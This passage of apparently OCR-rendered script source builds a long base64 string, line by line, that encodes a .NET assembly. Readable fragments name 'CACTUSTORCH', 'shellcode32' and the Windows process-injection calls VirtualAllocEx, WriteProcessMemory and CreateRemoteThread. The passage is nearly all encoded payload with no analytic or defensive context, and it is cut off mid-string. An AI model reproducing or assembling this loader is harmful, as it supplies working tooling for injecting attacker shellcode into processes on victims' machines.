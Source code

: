 "AAwBvgAJABABwwAJABgBbgAJABwBcwAJACABeAAJACQBfQAJACgBWgAJACwBXwAJADABZAAJADQB" s = s & "aQAJADgBggAJADwBhwAJAEABjAAuAAsAVgEuABMAXwEuABsAfgEuACMAhwEuACsAhwEuADMAmAEu" s = s & "ADsAmAEuAEMAhwEuAEsAhwEuAFMAmAEuAFsAngEuAGMApAEuAGsAzgFDAFsAngGjAHMAWgDDAHMA" s = s & "WgADAXMAWgAjAXMAWgAaAIwGAAEDAC4AAQAAAQUA8wgBAAABBwAJCQEAAAEJAGMIAQAAAQsA1AMB" s = s & "AASAAAABAAAAAAAAAAAAAAAAAPcAAAACAAAAAAAAAAAAAABRAKkDAAAAAAMAAgAEAAIABQACAAYA" s = s & "AgAHAAIACAACAAkAAgAAAAAAAHNoZWxsY29kZTMyAGNiUmVzZXJ2ZWQyAGxwUmVzZXJ2ZWQyADxN" s = s & "b2R1bGU+AENyZWF0ZVByb2Nlc3NBAENSRUFURV9CUkVBS0FXQVlfRlJPTV9KT0IARVhFQ1VURV9S" s = s & "RUFEAENSRUFURV9TVVNQRU5ERUQAUFJPQ0VTU19NT0RFX0JBQ0tHUk9VTkRfRU5EAERVUExJQ0FU" s = s & "RV9DTE9TRV9TT1VSQ0UAQ1JFQVRFX0RFRkFVTFRfRVJST1JfTU9ERQBDUkVBVEVfTkVXX0NPTlNP" s = s & "TEUARVhFQ1VURV9SRUFEV1JJVEUARVhFQ1VURQBSRVNFUlZFAENBQ1RVU1RPUkNIAFdSSVRFX1dB" s = s & "VENIAFBIWVNJQ0FMAFBST0ZJTEVfS0VSTkVMAENSRUFURV9QUkVTRVJWRV9DT0RFX0FVVEhaX0xF" s = s & "VkVMAENSRUFURV9TSEFSRURfV09XX1ZETQBDUkVBVEVfU0VQQVJBVEVfV09XX1ZETQBQUk9DRVNT" s = s & "X01PREVfQkFDS0dST1VORF9CRUdJTgBUT1BfRE9XTgBHTwBDUkVBVEVfTkVXX1BST0NFU1NfR1JP" s = s & "VVAAUFJPRklMRV9VU0VSAFBST0ZJTEVfU0VSVkVSAExBUkdFX1BBR0VTAENSRUFURV9GT1JDRURP" s = s & "UwBJRExFX1BSSU9SSVRZX0NMQVNTAFJFQUxUSU1FX1BSSU9SSVRZX0NMQVNTAEhJR0hfUFJJT1JJ" s = s & "VFlfQ0xBU1MAQUJPVkVfTk9STUFMX1BSSU9SSVRZX0NMQVNTAEJFTE9XX05PUk1BTF9QUklPUklU" s = s & "WV9DTEFTUwBOT0FDQ0VTUwBEVVBMSUNBVEVfU0FNRV9BQ0NFU1MAREVUQUNIRURfUFJPQ0VTUwBD" s = s & "UkVBVEVfUFJPVEVDVEVEX1BST0NFU1MAREVCVUdfUFJPQ0VTUwBERUJVR19PTkxZX1RISVNfUFJP" s = s & "Q0VTUwBSRVNFVABDT01NSVQAQ1JFQVRFX0lHTk9SRV9TWVNURU1fREVGQVVMVABDUkVBVEVfVU5J" s = s & "Q09ERV9FTlZJUk9OTUVOVABFWFRFTkRFRF9TVEFSVFVQSU5GT19QUkVTRU5UAENSRUFURV9OT19X" s = s & "SU5ET1cAZHdYAFJFQURPTkxZAEVYRUNVVEVfV1JJVEVDT1BZAElOSEVSSVRfUEFSRU5UX0FGRklO" s = s & "SVRZAElOSEVSSVRfQ0FMTEVSX1BSSU9SSVRZAGR3WQB2YWx1ZV9fAGNiAG1zY29ybGliAGxwVGhy" s = s & "ZWFkSWQAZHdUaHJlYWRJZABkd1Byb2Nlc3NJZABDcmVhdGVSZW1vdGVUaHJlYWQAaFRocmVhZABs" s = s & "cFJlc2VydmVkAHVFeGl0Q29kZQBHZXRFbnZpcm9ubWVudFZhcmlhYmxlAGxwSGFuZGxlAGJJbmhl" s = s & "cml0SGFuZGxlAGxwVGl0bGUAbHBBcHBsaWNhdGlvbk5hbWUAZmxhbWUAbHBDb21tYW5kTGluZQBW" s = s & "YWx1ZVR5cGUAZmxBbGxvY2F0aW9uVHlwZQBHdWlkQXR0cmlidXRlAERlYnVnZ2FibGVBdHRyaWJ1" s = s & "dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmlidXRlAEFzc2VtYmx5VHJh" s = s & "ZGVtYXJrQXR0cmlidXRlAGR3RmlsbEF0dHJpYnV0ZQBBc3NlbWJseUZpbGVWZXJzaW9uQXR0cmli" s = s & "dXRlAEFzc2VtYmx5Q29uZmlndXJhdGlvbkF0dHJpYnV0ZQBBc3NlbWJseURlc2NyaXB0aW9uQXR0" s = s & "cmlidXRlAEZsYWdzQXR0cmlidXRlAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAQXNz" s = s & "ZW1ibHlQcm9kdWN0QXR0cmlidXRlAEFzc2VtYmx5Q29weXJpZ2h0QXR0cmlidXRlAEFzc2VtYmx5" s = s & "Q29tcGFueUF0dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQBkd1hTaXplAGR3" s = s & "WVNpemUAZHdTdGFja1NpemUAZHdTaXplAFNpemVPZgBHVUFSRF9Nb2RpZmllcmZsYWcATk9DQUNI" s = s & "RV9Nb2RpZmllcmZsYWcAV1JJVEVDT01CSU5FX01vZGlmaWVyZmxhZwBGcm9tQmFzZTY0U3RyaW5n" s = s & "AFRvU3RyaW5nAGNhY3R1c1RvcmNoAGdldF9MZW5ndGgATWFyc2hhbABrZXJuZWwzMi5kbGwAQ0FD" s = s & "VFVTVE9SQ0guZGxsAFN5c3RlbQBFbnVtAGxwTnVtYmVyT2ZCeXRlc1dyaXR0ZW4AbHBQcm9jZXNz" s = s & "SW5mb3JtYXRpb24AU3lzdGVtLlJlZmxlY3Rpb24ATWVtb3J5UHJvdGVjdGlvbgBscFN0YXJ0dXBJ" s = s & "bmZvAFplcm8AbHBEZXNrdG9wAGJ1ZmZlcgBscFBhcmFtZXRlcgBoU3RkRXJyb3IALmN0b3IAbHBT" s = s & "ZWN1cml0eURlc2NyaXB0b3IASW50UHRyAFN5c3RlbS5EaWFnbm9zdGljcwBTeXN0ZW0uUnVudGlt" s = s & "ZS5JbnRlcm9wU2VydmljZXMAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBEZWJ1Z2dp" s = s & "bmdNb2RlcwBiSW5oZXJpdEhhbmRsZXMAbHBUaHJlYWRBdHRyaWJ1dGVzAGxwUHJvY2Vzc0F0dHJp" s = s & "YnV0ZXMAU2VjdXJpdHlBdHRyaWJ1dGVzAGR3Q3JlYXRpb25GbGFncwBDcmVhdGVQcm9jZXNzRmxh" s = s & "Z3MAZHdGbGFncwBEdXBsaWNhdGVPcHRpb25zAGR3WENvdW50Q2hhcnMAZHdZQ291bnRDaGFycwBU" s = s & "ZXJtaW5hdGVQcm9jZXNzAGhQcm9jZXNzAGxwQmFzZUFkZHJlc3MAbHBBZGRyZXNzAGxwU3RhcnRB" s = s & "ZGRyZXNzAENvbmNhdABPYmplY3QAZmxQcm90ZWN0AGxwRW52aXJvbm1lbnQAQ29udmVydABoU3Rk" s = s & "SW5wdXQAaFN0ZE91dHB1dAB3U2hvd1dpbmRvdwBWaXJ0dWFsQWxsb2NFeABiaW5hcnkAV3JpdGVQ" s = s & "cm9jZXNzTWVtb3J5AGxwQ3VycmVudERpcmVjdG9yeQBvcF9FcXVhbGl0eQBvcF9JbmVxdWFsaXR5" s = s & "AAAAAAABABlQAHIAbwBnAHIAYQBtAFcANgA0ADMAMgAADXcAaQBuAGQAaQByAAAVXABTAHkAcwBX" s = s & "AE8AVwA2ADQAXAAAFVwAUwB5AHMAdABlAG0AMwAyAFwAAAMwAAAARY+bzuLqxE+aSSAzLsphXgAE" s = s & "IAEBCAMgAAEFIAEBEREEIAEBDgQgAQECDgcJHQUYEhwREA4YGAgYBQABHQUOBAABDg4DIAAIBgAD" s = s & "Dg4ODgIGGAMgAA4FAAICDg4EAAEIHAi3elxWGTTgiQQBAAAABAIAAAAEBAAAAAQIAAAABBAAAAAE" s = s & "IAAAAARAAAAABIAAAAAEAAEAAAQAAgAABAAEAAAEAAgAAAQAEAAABAAgAAAEAEAAAAQAgAAABAAA" s = s & "AQAEAAACAAQAAAQABAAACAAEAAAQAAQAACAABAAAAAEEAAAAAgQAAAAEBAAAAAgEAAAAEAQAAAAg" s = s & "BAAAAEAEAAAAgAQAMAAABAAAQAACBggCBgICBgkDBhEUAwYRGAIGBgMGESADBhEkEwAKGA4OEgwS" s = s & "DAIRFBgOEhwQERAKAAUYGBgYESARJAkABQIYGB0FGAgFAAICGAkKAAcYGBgJGBgJGAUgAgEODggB" s = s & "AAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93cwEIAQACAAAAAAAQAQALQ0FDVFVT" s = s & "VE9SQ0gAAAUBAAAAAAUBAAEAACkBACQ1NjU5OGYxYy02ZDg4LTQ5OTQtYTM5Mi1hZjMzN2FiZTU3" s = s & "NzcAAAwBAAcxLjAuMC4wAAAASDUAAAAAAAAAAAAAYjUAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AFQ1AAAAAAAAAAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAP8lACAAEAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAEAAAABgAAIAAAAAAAAAAAAAAAAAAAAEAAQAA" s = s & "ADAAAIAAAAAAAAAAAAAAAAAAAAEAAAAAAEgAAABYQAAANAMAAAAAAAAAAAAANAM0AAAAVgBTAF8A" s = s & "VgBFAFIAUwBJAE8ATgBfAEkATgBGAE8AAAAAAL0E7/4AAAEAAAABAAAAAAAAAAEAAAAAAD8AAAAA" s = s & "AAAABAAAAAIAAAAAAAAAAAAAAAAAAABEAAAAAQBWAGEAcgBGAGkAbABlAEkAbgBmAG8AAAAAACQA" s = s & "BAAAAFQAcgBhAG4AcwBsAGEAdABpAG8AbgAAAAAAAACwBJQCAAABAFMAdAByAGkAbgBnAEYAaQBs" s = s & "AGUASQBuAGYAbwAAAHACAAABADAAMAAwADAAMAA0AGIAMAAAADAADAABAEMAbwBtAG0AZQBuAHQA" s = s & "cwAAAEMAQQBDAFQAVQBTAFQATwBSAEMASAAAACIAAQABAEMAbwBtAHAAYQBuAHkATgBhAG0AZQAA" s = s &